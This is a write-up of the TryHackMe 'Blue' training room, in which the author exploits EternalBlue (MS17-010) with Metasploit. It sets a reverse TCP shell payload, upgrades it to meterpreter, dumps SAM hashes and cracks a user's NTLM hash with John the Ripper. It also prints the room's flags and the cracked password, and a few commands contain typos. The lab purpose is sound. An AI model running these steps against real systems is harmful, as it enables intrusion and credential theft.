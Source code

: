 ```yaml
---
layout: page
title: Blue
permalink: /thm/blue
---
```

"Blue" is an entry-level TryHackMe room, designed to introduce users to basic Windows exploitation techniques. The main objective is to gain root access by exploiting a known vulnerability in the SMB (Server Message Block) protocol. Specifically, the target machine is vulnerable to [EternalBlue](https://it.wikipedia.org/wiki/EternalBlue) ([CVE-2017-0144](https://nvd.nist.gov/vuln/detail/CVE-2017-0144)), a critical flaw in Microsoft’s SMBv1 implementation.
EternalBlue was originally developed by the NSA and later leaked by the Shadow Brokers in 2017. It has since been widely used in various attacks, including the WannaCry ransomware outbreak. In this room, you'll scan the target for open ports and services, identify the SMB vulnerability, and use a Metasploit module or custom exploit to gain remote code execution. Once access is achieved, the final goal is to escalate privileges and capture the root flag.
This machine can be downloaded from [this page](https://darkstar7471.com/resources.html).
### Table of contents:
- [Recon](#recon)
- [Gain Access](#gain-access)
- [Escalate](#escalate)
- [Cracking](#cracking)
- [Find flags!](#find-flags)
## Recon
To get through this section you'll need to install [nmap](https://nmap.org/) or use nmap inside of [Metasploit](https://www.metasploit.com/) (which you will need later). 
1. How many ports are open with a port number under 1000?
2. What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
We can answer these questions with just one nmap scan:
```
nmap --script vuln target IP
```
This will return  all open ports (9 in total, **3** under port 1000) and all known vulnerabilities (including the EternalBlue exploit, or **ms17-010**). 
![ports](images/ports.png)
## Gain Access
To get through this section you'll need to install the [Metasploit framework](https://www.metasploit.com/). Then:
1. become root: `sudo su`
2. open up metasploit: `msfconsole`
3. set your local IP address to LHOST: `set LHOST` `tun0` and `LPORT` to a random port that is not already in use (e.g. `set LPPRT 4444`)
4. search metasploit's database for the EternalBlue exploit: `search ms17-010`
	- ![ms17-010](images/ms17-010.png)
5. use the exploit: `use`
6. show the options for the exploit: `show options`. You'll get "**RHOSTS**" as the first result
	- ![show options](images/options.png)
7. now set RHOSTS as the target machine's IP address: `set RHOSTS` target_ip
8. paste 
```
set payload windows/x64/shell/reverse_tcp
```
## Escalate
Background the session with Ctrl+z (then press `y` when prompted)
Let's now search the Metasploit database for info on how to convert a shell to a meterpreter shell:
`search shell_to_meterpreter`

![shell](images/shell.png)

This way we will get the answer: `post/multi/manage/shell_to_meterpreter`
Use this post module with `use 0` and show its' options with `show options`

![session](images/session.png)

Since we have two sessions going on, we will have to change the `SESSION` option to 1 with `session -i 1`. To know to which session you have to switch, use the command `sessions -l`

![sessions](images/sessions.png)

Now run the exploit with `run`
Once we get the `[*] Stopping exploit/multi/handler` message, press `Ctrl+c` to stop that payload and select the session you just created with `sessions -i 2` or whatever number your session is (look for it with `sessions -l`).

![session2](/images/session2.png)

![meterpreter](images/meterpreter.png)

The getsystem command will now return this:

![system](images/sytstem.png)

You can also list oll the processes with the ps command and you can migrate to one of these.

![ps](images/ps.png)

Find a process that runs at NT AUTHORITY\SYSTEM and copy its' PID.
Now migrate to it with `migrate` and the PID (e.g. `migrate 2868`).
## Cracking
Now use the hashdump command

![hashdump](images/hashdump.png)

Jon is the non-default user. Copy the NTLM digest.
Then we'll copy the digest to a file with `echo Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d::: > hash.txt`
We'll run John The Ripper on the file with `john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
> This will return alqfna22 as the password.

![john](images/john.png)

## Find flags!

The first flag is located in the C:\ folder: 
> flag{access_the_machine}

The second flag is loceated in the C:/Windows/System32/config folder: 
> flag{sam_database_elevated_access}

The third one is in C:\Users\Jon\Documents:
> flag{admin_documents_can_be_valuable}

That' all, hope i helped.